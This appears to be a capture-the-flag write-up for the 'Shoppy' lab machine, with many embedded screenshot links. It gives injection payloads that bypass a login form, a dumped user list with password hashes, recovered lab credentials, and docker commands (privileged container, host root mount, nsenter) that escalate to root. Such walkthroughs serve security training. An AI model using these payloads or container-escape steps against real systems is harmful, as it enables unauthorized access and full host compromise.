# Shoppy

  
  
  

  
  

Fuzzing for the post paramaters ==> It errors for SQLI.
Trying to guess the sql query:

```SQL
select username where username='USERNAME_INPUT' and password='PASSWORD_INPUT';
select username where username="USERNAME_INPUT" and password='PASSWORD_INPUT';
```

To login we should
```SQL
select username where username='admin' or '1'='1' and password='PASSWORD_INPUT';
select username where username='admin' || '1'='1' and password='PASSWORD_INPUT';
select username where username='admin' || '1=1' and password='PASSWORD_INPUT';
select username where username='admin' || '1=1' and password='PASSWORD_INPUT';
```

  

  

`http://shoppy.htb/admin/search-users?username=admin`
Tried SQLI on username query param with sqlmap and quick fuzzing showed me that it's also vulnerable probably the same developer :,)

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

  
  
Trying the credentials on the subdomain page: 
  

  

```creds
username: jaeger
password: Sh0ppyBest@pp!
```

Going back to ssh
  

  

Finding the file `password-manager`, getting it to my machine and opening with ghidra. The password was `Sample`
  

Now we have a new pair of credentials:
  

```creds
username: deploy                                                                                                     │
password: Deploying@pp! 
```

Now we want to break out of the container: That's basically easy as the container still communicates with the daemon through a socket
  

1. `docker images` => We find an alpine image available
2. `docker run -it --rm --pid=host --privileged alpine sh`
3. `docker run -it -v /:/host/ alpine chroot /host/ bash`
4. `nsenter --target 1 --mount --uts --ipc --net --pid -- bash` => Tadaa get the flag now

[Reference](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)